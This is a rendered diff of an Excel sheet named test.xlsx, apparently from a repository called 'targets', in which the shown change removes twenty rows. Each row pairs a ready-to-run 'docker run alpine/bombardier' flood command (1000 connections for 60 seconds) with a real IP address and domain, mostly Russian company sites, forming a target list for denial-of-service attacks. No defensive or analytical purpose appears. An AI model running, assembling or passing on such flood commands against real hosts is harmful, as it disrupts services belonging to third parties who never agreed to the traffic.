

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
-row 23: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.217.20.1&& sleep 5; | 91.217.20.1 | arkhbum.com
-row 24: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 148.251.9.18&& sleep 5; | 148.251.9.18 | arkhbum.com
-row 25: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 23.236.62.147&& sleep 5; | 23.236.62.147 | arkhbum.com
-row 26: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 176.74.216.63&& sleep 5; | 176.74.216.63 | utupack.ru
-row 27: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 176.74.218.245&& sleep 5; | 176.74.218.245 | utupack.ru
-row 28: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 176.74.219.91&& sleep 5; | 176.74.219.91 | utupack.ru
-row 29: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 176.31.3.154&& sleep 5; | 176.31.3.154 | utupack.ru
-row 30: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 188.138.25.51&& sleep 5; | 188.138.25.51 | utupack.ru
-row 31: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 136.243.223.232&& sleep 5; | 136.243.223.232 | utupack.ru
-row 32: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 176.74.222.29&& sleep 5; | 176.74.222.29 | utupack.ru
-row 33: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 108.162.193.170&& sleep 5; | 108.162.193.170 | rostovbumaga.ru
-row 34: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 108.162.192.139&& sleep 5; | 108.162.192.139 | rostovbumaga.ru
-row 35: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 172.67.163.236&& sleep 5; | 172.67.163.236 | rostovbumaga.ru
-row 36: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 104.21.66.196&& sleep 5; | 104.21.66.196 | rostovbumaga.ru
-row 37: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 92.127.158.62&& sleep 5; | 92.127.158.62 | sckkbur.ru
-row 38: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 92.127.158.61&& sleep 5; | 92.127.158.61 | sckkbur.ru
-row 39: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 92.127.158.63&& sleep 5; | 92.127.158.63 | sckkbur.ru
-row 40: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.226.223.50&& sleep 5; | 91.226.223.50 | sckkbur.ru
-row 41: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 141.8.192.54&& sleep 5; | 141.8.192.54 | karavaevo.ru
-row 42: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 172.105.85.119&& sleep 5; | 172.105.85.119 | karavaevo.ru
```
Also changed, not shown: 14 added rows and 163 removed rows elsewhere in this sheet.
